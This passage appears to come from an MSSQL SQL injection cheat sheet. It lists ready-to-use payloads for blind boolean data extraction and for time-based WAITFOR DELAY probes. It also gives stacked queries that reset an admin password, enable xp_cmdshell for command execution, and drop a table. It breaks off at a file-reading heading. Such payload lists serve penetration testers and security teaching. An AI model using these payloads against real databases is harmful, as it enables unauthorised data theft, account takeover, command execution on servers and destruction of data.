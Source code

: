 Examples:

```sql
AND ASCII(SUBSTRING(SELECT TOP 1 username FROM tblusers),1,1)=97
AND UNICODE(SUBSTRING((SELECT 'A'),1,1))>64-- 
AND SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables > 'A'
AND ISNULL(ASCII(SUBSTRING(CAST((SELECT LOWER(db_name(0)))AS varchar(8000)),1,1)),0)>90
```

## MSSQL Time Based

In a time-based blind SQL injection attack, an attacker injects a payload that uses `WAITFOR DELAY` to make the database pause for a certain period. The attacker then observes the response time to infer whether the injected payload executed successfully or not.

```sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--
```

```sql
IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'
IF 1=1 WAITFOR DELAY '0:0:5' ELSE WAITFOR DELAY '0:0:0';
```

## MSSQL Stacked Query

* Stacked query without any statement terminator

    ```sql
    -- multiple SELECT statements
    SELECT 'A'SELECT 'B'SELECT 'C'

    -- updating password with a stacked query
    SELECT id, username, password FROM users WHERE username = 'admin'exec('update[users]set[password]=''a''')--

    -- using the stacked query to enable xp_cmdshell
    -- you won't have the output of the query, redirect it to a file 
    SELECT id, username, password FROM users WHERE username = 'admin'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')--
    ```

* Use a semi-colon "`;`" to add another query

    ```sql
    ProductID=1; DROP members--
    ```

## MSSQL File Manipulation

### MSSQL Read File
